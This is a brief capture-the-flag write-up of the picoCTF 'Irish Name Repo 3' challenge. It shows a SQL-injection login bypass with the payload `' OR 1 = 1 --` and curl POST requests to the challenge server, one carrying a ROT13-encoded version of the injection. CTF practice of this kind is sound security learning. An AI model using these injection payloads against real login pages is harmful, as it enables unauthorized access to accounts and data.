# Irish Name Repo 3
* points 400
1. Go to the link http://jupiter.challenges.picoctf.org:54253
2. Go to login page
3. As mentioned in image we can insert sql injection so lets try with the payload
`'`
5. Wallah it worked
6. Lets bypass the login 
`' OR 1 = 1 --`
7. Lets turn the debug field to 1 
8. `curl -X POST -d "password=or&debug=1" http://jupiter.challenges.picoctf.org:54253/login.php`
9. It seems like our password is being encrypted and let try to submit encrypted sql query
10. `curl -X POST -d "password='be 1=1 --&debug=0" http://jupiter.challenges.picoctf.org:54253/login.php`
9. `--` to comment out the passowrd section 
![Completed](images/flag.png "flag")
